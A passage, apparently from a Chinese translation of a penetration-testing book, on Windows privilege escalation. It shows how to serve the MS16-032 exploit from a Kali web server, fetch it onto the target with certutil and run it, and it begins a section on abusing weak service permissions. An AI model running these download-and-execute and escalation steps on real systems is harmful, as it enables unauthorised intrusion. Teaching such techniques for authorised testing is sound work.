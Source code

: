 图 8.13 – MS16_032 GitHub 仓库

然而，建议您自己分析并编译利用代码。该漏洞的源代码可以在这里找到：[`github.com/khr0x40sh/ms16-032`](https://github.com/khr0x40sh/ms16-032)。

下载或编译二进制文件后，我们需要将其传输到目标系统。这可以通过以下过程来实现：

1.  要在我们的 Kali 虚拟机上设置一个 Web 服务器，我们可以使用`SimpleHTTPServer` Python 模块来提供二进制文件。可以通过在存储`ms16-032.exe`二进制文件的目录中运行以下命令来实现：

    `sudo python -m SimpleHTTPServer 80`

1.  或者，您也可以通过运行以下命令使用 Python 3 的`http.server`模块：

    `sudo python3 -m http.server 80`

1.  现在我们可以使用`certutil`工具将二进制文件从 Kali 虚拟机下载到目标系统。可以通过在目标系统上运行以下命令来实现：

    `certutil -urlcache -f http://<KALI-VM-IP>/ms16-032.exe ms16-032.exe`

1.  现在我们可以执行`ms16-032.exe`二进制文件。可以通过运行以下命令来实现：

    `.\ms-16-032.exe`

    如果二进制文件成功运行，您应该会收到类似于以下截图中突出显示的输出：

![图 8.14 – MS16-032 手动利用](img/B17389_08_014.jpg)

图 8.14 – MS16-032 手动利用

我们已经成功地通过手动和自动方式利用次级登录服务提升了权限。

现在，我们来看看如何识别和利用弱服务权限来提升我们的权限。

# 利用弱服务权限

此利用涉及利用配置不当的服务权限来提升我们的权限。此过程的目标是识别以`SYSTEM`或管理员权限运行的服务，并利用该服务的错误权限配置，通过`BINARY_PATH_NAME`参数执行任意命令。

我们可以利用这个漏洞将标准用户添加到本地管理员组，从而在系统上提升权限。

利用过程可以按照以下步骤进行：

1.  该过程的第一步是识别标准用户可以访问的服务和应用程序。可以通过使用`accesschk`工具来简化此过程，该工具位于`Sysinternals`套件中。`accesschk`可执行文件可以从这里下载：[`docs.microsoft.com/en-us/sysinternals/downloads/accesschk`](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk)。
